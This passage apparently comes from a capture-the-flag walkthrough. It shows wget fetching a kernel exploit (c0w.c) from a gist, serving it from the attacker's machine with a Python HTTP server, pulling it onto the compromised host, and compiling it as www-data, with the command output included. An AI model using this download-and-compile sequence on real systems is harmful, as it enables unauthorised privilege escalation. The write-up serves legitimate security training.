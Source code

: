 I download a variant of the exploit [**from this link**](https://gist.githubusercontent.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c) using **wget**:

`wget https://gist.githubusercontent.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c`

```
--2022-04-14 12:12:09--  https://gist.githubusercontent.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c
Resolving gist.githubusercontent.com (gist.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to gist.githubusercontent.com (gist.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4368 (4.3K) [text/plain]
Saving to: ‘c0w.c’

c0w.c                                  100%[==========================================================================>]   4.27K  --.-KB/s    in 0s      

2022-04-14 12:12:09 (41.9 MB/s) - ‘c0w.c’ saved [4368/4368]
```

I then start a simple http server up on my system and wget the file over to the server:

`python3 -m http.server 80`

`wget http://<MY IP>/c0w.c`

```
Connecting to <MY IP>:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4368 (4.3K) [text/x-csrc]
Saving to: `c0w.c'

100%[======================================>] 4,368       --.-K/s   in 0s      

2022-04-14 09:15:47 (916 MB/s) - `c0w.c' saved [4368/4368]
```

And compile the exploit, which throws a couple error messages but still works:

`gcc -pthread c0w.c -o c0w`

```
c0w.c: In function 'main':
c0w.c:109:3: warning: format '%x' expects argument of type 'unsigned int', but argument 2 has type 'void *' [-Wformat]
```

`ls -al c0w`

```
-rwxr-xr-x 1 www-data www-data 13782 Apr 14 09:16 c0w
```

<br>

## Root
